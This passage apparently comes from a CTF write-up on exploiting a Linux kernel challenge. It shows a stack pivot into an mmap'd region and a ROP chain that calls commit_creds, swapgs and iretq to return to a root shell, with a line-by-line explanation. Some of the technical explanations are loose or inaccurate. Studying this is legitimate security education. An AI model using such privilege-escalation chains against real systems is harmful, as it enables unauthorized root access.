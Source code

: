 ![](/img/ropetwo/gadget.png)

If we step into the instruction and see the values of both `eax` & `esp`, we will see:-

![](/img/ropetwo/esp.png)

As seen above, the `rsp` is now pointing to the loweer 32 bit address of the gadget, now, we can `mmap` a shared memory page such that it'll be accessible between the kernel and the userland space with:-

```C
void *mapped = mmap(pivot_target & 0xfffff000, 0x1000000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE | MAP_POPULATE, 0, 0);
```
Now, time to craft a ROP chain which will be stored in the shared memory region, following is the ROP chain I created:-

```C
  unsigned long long user_rflags, user_cs, user_ss, user_sp;
	asm volatile(
		"mov %0, %%cs\n"
		"mov %1, %%ss\n"
		"mov %2, %%rsp\n"
		"pushfq\n"
		"pop %3\n"
		: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags)
	);

    unsigned long long rop[] = {
         pop_rdi, // pop rdi
         init_creds,
         commit_creds,
         swapgs,
         0xdeadbeef,
         iretq,
         get_shell,
         user_cs,
         user_rflags,
         user_sp,
        user_ss,
    };
```

Now, to explain the ROP chain, let's break down:-

* `pop rdi; ret` this will pop the `rdi` register which is responsible for holding the 1st arguument in the x86_64 systems.
* `init_creds`: This will be given into the `rdi`.
* `commit_creds`, doing so, when the the RIP will reach the `commit_creds`, it'll execute it as `commit_creds(init_creds())` which will change the `UID` for the running process to `0`.
* Then, `swapgs` will let the it back to the userland safely because of the SMAP and KASLR being enabled, then `0xdeadbeef` for the padding.
* `iretq` will store the the flags and register and the RIP.
* Followed by the `get_shell` function, this will be the RIP.
* Rest flags would be restored and will be considered.
